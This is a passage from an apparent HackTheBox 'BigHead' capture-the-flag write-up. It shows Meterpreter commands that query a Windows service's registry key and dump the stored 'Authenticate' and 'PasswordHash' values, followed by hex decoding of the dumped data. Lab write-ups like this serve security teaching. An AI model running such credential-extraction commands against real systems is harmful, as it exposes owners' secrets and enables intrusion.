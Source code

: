 ![](/images/hackthebox/bighead/105.png)
```
meterpreter > reg queryval -k 'HKLM\System\CurrentControlSet\Services\nginx' -v Authenticate
Key: HKLM\System\CurrentControlSet\Services\nginx
Name: Authenticate
Type: REG_BINARY
Data: 4800370033004200700055005900320055007100390055002d005900750067007900740035004600590055006200590030002d0055003800370074003800370000000000
```
<br> `PasswordHash` :
`reg queryval -k 'HKLM\System\CurrentControlSet\Services\nginx' -v PasswordHash`
![](/images/hackthebox/bighead/106.png)
```
meterpreter > reg queryval -k 'HKLM\System\CurrentControlSet\Services\nginx' -v PasswordHash
Key: HKLM\System\CurrentControlSet\Services\nginx
Name: PasswordHash
Type: REG_SZ
Data: 336d72676e6333205361797a205472794861726465722e2e2e203b440a
```
<br> `Authenticate` : `4800370033004200700055005900320055007100390055002d005900750067007900740035004600590055006200590030002d0055003800370074003800370000000000`
<br> `PasswordHash` : `336d72676e6333205361797a205472794861726465722e2e2e203b440a`
<br> Looks like `hex`, Let's see `Authenticate` : 
![](/images/hackthebox/bighead/107.png)
<br> The output was kinda weird, that's because of the null bytes, I removed them then I got the right output :
`4837334270555932557139552d5975677974354659556259302d553837743837`
